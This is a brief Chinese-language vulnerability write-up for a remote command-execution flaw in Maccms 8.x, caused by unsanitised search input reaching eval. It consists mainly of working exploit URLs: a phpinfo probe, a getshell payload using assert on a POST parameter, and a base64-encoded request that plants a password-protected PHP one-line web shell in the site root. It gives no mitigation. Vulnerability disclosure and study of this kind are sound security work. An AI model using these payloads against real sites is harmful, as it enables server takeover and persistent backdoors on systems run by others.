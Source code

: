 ```yaml
---
title: "Maccms 8.x(苹果cms)命令执行漏洞"
id: zhfly3011
---
```


# Maccms 8.x(苹果cms)命令执行漏洞

## 一、漏洞简介

搜索页面搜索参数过滤不严
导致直接eval执行PHP语句，前台命令执行可getshell

## 二、漏洞影响

Maccms 8.x

## 三、复现过程

payload：

```
http://0-sec.org/index.php?m=vod-search&wd={if-A:phpinfo()}{endif-A} 
```

![image](../img/c8659c655b3a4a87ded78b641362aa50.png)

getshell payload（a）:

```
http://0-sec.org/index.php?m=vod-search&wd={if-A:assert($_POST[a])}{endif-A}

POST `a=phpinfo()` 
```

![image](../img/6c075af7ab0a960f71f789803ab30458.png)

写入网站根目录一句话木马文件payload（文件名：test.php，密码：test）:

```
http://0-sec.org/index.php?m=vod-search&wd={if-A:print(fputs%28fopen%28base64_decode%28dGVzdC5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW3Rlc3RdKTsgPz4%29%29)}{endif-A} 
```